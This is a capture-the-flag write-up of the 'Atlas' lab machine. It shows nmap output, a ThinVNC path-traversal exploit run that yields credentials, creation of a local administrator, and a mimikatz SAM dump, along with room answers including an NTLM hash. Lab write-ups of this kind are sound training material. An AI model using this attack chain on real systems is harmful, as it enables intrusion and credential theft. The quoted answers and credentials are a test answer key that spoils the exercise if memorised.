



> # Atlas

# Summary

## Task 2 - Enumeration Port Scanning
Scan the target with `nmap -Pn`
```
$ sudo nmap -Pn 10.10.176.253 -A 
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-28 00:16 EST
Nmap scan report for 10.10.176.253
Host is up (0.21s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: GAIA
|   NetBIOS_Domain_Name: GAIA
|   NetBIOS_Computer_Name: GAIA
|   DNS_Domain_Name: GAIA
|   DNS_Computer_Name: GAIA
|   Product_Version: 10.0.17763
|_  System_Time: 2023-01-28T05:19:08+00:00
|_ssl-date: 2023-01-28T05:19:18+00:00; +18s from scanner time.
| ssl-cert: Subject: commonName=GAIA
| Not valid before: 2023-01-27T05:10:57
|_Not valid after:  2023-07-29T05:10:57
8080/tcp open  http-proxy
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Type: text/html
|     Content-Length: 177
|     Connection: Keep-Alive
|     <HTML><HEAD><TITLE>404 Not Found</TITLE></HEAD><BODY><H1>404 Not Found</H1>The requested URL nice%20ports%2C/Tri%6Eity.txt%2ebak was not found on this server.<P></BODY></HTML>
|   GetRequest: 
|     HTTP/1.1 401 Access Denied
|     Content-Type: text/html
|     Content-Length: 144
|     Connection: Keep-Alive
|     WWW-Authenticate: Digest realm="ThinVNC", qop="auth", nonce="bdC/DEfz5UCI10sCR/PlQA==", opaque="cJF3mrJdkdB9SCgkZwOlSFyaGa7v9DGmPN"
|_    <HTML><HEAD><TITLE>401 Access Denied</TITLE></HEAD><BODY><H1>401 Access Denied</H1>The requested URL requires authorization.<P></BODY></HTML>
| http-auth: 
| HTTP/1.1 401 Access Denied\x0D
|_  Digest nonce=Ez15F0fz5UAI2EsCR/PlQA== realm=ThinVNC opaque=OxXVtphKeq0qy7ZaPZEyadWA6OuY3Co0lq qop=auth
|_http-title: 401 Access Denied
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.92%I=7%D=1/28%Time=63D4AFCD%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,179,"HTTP/1\.1\x20401\x20Access\x20Denied\r\nContent-Type:\x20
SF:text/html\r\nContent-Length:\x20144\r\nConnection:\x20Keep-Alive\r\nWWW
SF:-Authenticate:\x20Digest\x20realm=\"ThinVNC\",\x20qop=\"auth\",\x20nonc
SF:e=\"bdC/DEfz5UCI10sCR/PlQA==\",\x20opaque=\"cJF3mrJdkdB9SCgkZwOlSFyaGa7
SF:v9DGmPN\"\r\n\r\n<HTML><HEAD><TITLE>401\x20Access\x20Denied</TITLE></HE
SF:AD><BODY><H1>401\x20Access\x20Denied</H1>The\x20requested\x20URL\x20\x2
SF:0requires\x20authorization\.<P></BODY></HTML>\r\n")%r(FourOhFourRequest
SF:,111,"HTTP/1\.1\x20404\x20Not\x20Found\r\nContent-Type:\x20text/html\r\
SF:nContent-Length:\x20177\r\nConnection:\x20Keep-Alive\r\n\r\n<HTML><HEAD
SF:><TITLE>404\x20Not\x20Found</TITLE></HEAD><BODY><H1>404\x20Not\x20Found
SF:</H1>The\x20requested\x20URL\x20nice%20ports%2C/Tri%6Eity\.txt%2ebak\x2
SF:0was\x20not\x20found\x20on\x20this\x20server\.<P></BODY></HTML>\r\n");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized
Running (JUST GUESSING): AVtech embedded (87%)
Aggressive OS guesses: AVtech Room Alert 26W environmental monitor (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 17s, deviation: 0s, median: 16s
```

1. With the Nmap default port range, you should find that two ports are open. What port numbers are these?<br>
    **Answer:** 3389,8080

1. What service does Nmap think is running on the higher of the two ports?<br>
    **Answer:** http-proxy

## Task 4 - Attack Foothold
This python script perform path traversal to retrieve ThinVNC.ini.<br>
```
$ python3 CVE-2019-17662.py 10.10.155.254 8080 

     _____ _     _    __     ___   _  ____                                                                                                                                            
    |_   _| |__ (_)_ _\ \   / / \ | |/ ___|                                                                                                                                           
      | | | '_ \| | '_ \ \ / /|  \| | |                                                                                                                                               
      | | | | | | | | | \ V / | |\  | |___                                                                                                                                            
      |_| |_| |_|_|_| |_|\_/  |_| \_|\____|                                                                                                                                           
                                                                                                                                                                                      
                            @MuirlandOracle                                                                                                                                           

                
[+] Credentials Found!
Username:       Atlas
Password:       H0ldUpTheHe@vens
```

## Task 5 - Access VNC 🠖 RDP
At here, to make it simple I use Remmina to access RDP.<br>
<br>

## Task 6 - Attack Privilege Escalation
Create a new local administrator.<br>
<br>
<br>

## Task 7 - Attack Post Exploitation
Drop mimikatz to the target for dumping SAM.<br>

1. Administrator NLTM's hash?
    **Answer:** c16444961f67af7eea7e420b65c8c3eb

